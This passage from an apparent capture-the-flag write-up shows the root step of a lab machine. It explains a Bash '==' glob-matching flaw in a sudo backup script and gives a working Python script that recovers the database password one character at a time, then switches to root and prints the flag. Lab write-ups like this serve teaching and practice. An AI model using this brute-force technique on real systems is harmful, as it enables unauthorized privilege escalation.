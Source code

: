 This section of the script compares the user-provided password `(USER_PASS)` with the actual database password `(DB_PASS)`. The vulnerability here is due to the use of == inside in Bash, which performs pattern matching rather than direct string comparison. This means that the user input `(USER_PASS)` is treated as a pattern, and if it includes glob characters like \* or ? it can potentially match unintended strings. For example, if the actual password `(DB_PASS)` is password123 and the user enters \* as their password `(USER_PASS)`, the pattern match will succeed because \* matches any string, resulting in unauthorized access. This means we can brute force every char in the `DB_PASS`. Now let's use a custom python script that exploits this by testing password prefixes and suffixes to slowly reveal the full password. It builds up the password character by character, confirming each guess by invoking the script via sudo and checking for a successful run.

```python
import string  
import subprocess  
all = list(string.ascii_letters + string.digits)  
password = ""  
found = False  
  
while not found:  
    for character in all:  
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"  
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout  
  
        if "Password confirmed!" in output:  
            password += character  
            print(password)  
            break  
    else:  
        found = True
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1712427756969/ba8b9c75-d384-4ce2-b0fb-858f3bca4670.png align="center")

Now let's run this script to get the password.

```bash
python3 exploit.py
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1712427743567/723f87fb-a4c4-4d09-8172-d596bbc7d2af.png align="center")

So we got the password `kljh12k3jhaskjh12kjh3`. Now let's change our user to root.

```bash
su root
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1712427726240/c63ba598-7835-4de1-8d1c-5f6b7ccc0dcc.png align="center")

Time for our final flag root.txt

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1712427721788/42e913b1-c6c8-4c8a-b82e-62ca26b22e41.png align="center")

Flag: **27668e638861d973df7570af9f520528**

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1712427706530/21a9ef2d-c7c3-430d-9d6c-825282a09cad.png align="center")